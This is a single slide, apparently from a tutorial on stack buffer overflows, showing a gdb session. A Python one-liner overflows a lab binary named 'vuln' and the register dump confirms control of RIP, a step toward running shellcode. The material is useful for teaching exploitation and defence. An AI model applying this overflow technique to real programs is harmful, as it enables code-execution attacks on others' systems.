

# 0x05 How to run your shellcode
Time to trigger the buffer overflow and confirm that we control RIP
| $ gdb -tui ./vuln (gdb) r $(python -c "print 'A' \* (256 + 8) + 'B' \* 6") Program received signal SIGSEGV, Segmentation fault. Cannot access memory at address 0x424242424242 (gdb) i r rax 0x0 0 rbx 0x0 0 rcx 0x7ffff7b0c620 140737348945440 rdx 0x7ffff7dd87a0 140737351878560 rsi 0x7ffff7ff8000 140737354104832 rdi 0x0 0 rbp 0x4141414141414141 0x4141414141414141 rsp 0x7fffffffe4e0 0x7fffffffe4e0 r8 0x4141414141414141 4702111234474983745 r9 0x4141414141414141 4702111234474983745 r10 0x4141414141414141 4702111234474983745 r11 0x246 582 r12 0x4004e0 4195552 r13 0x7fffffffe5b0 140737488348592 r14 0x0 0 r15 0x0 0 rip 0x424242424242 0x424242424242 eflags 0x10246 [ PF ZF IF RF ] |
| --- |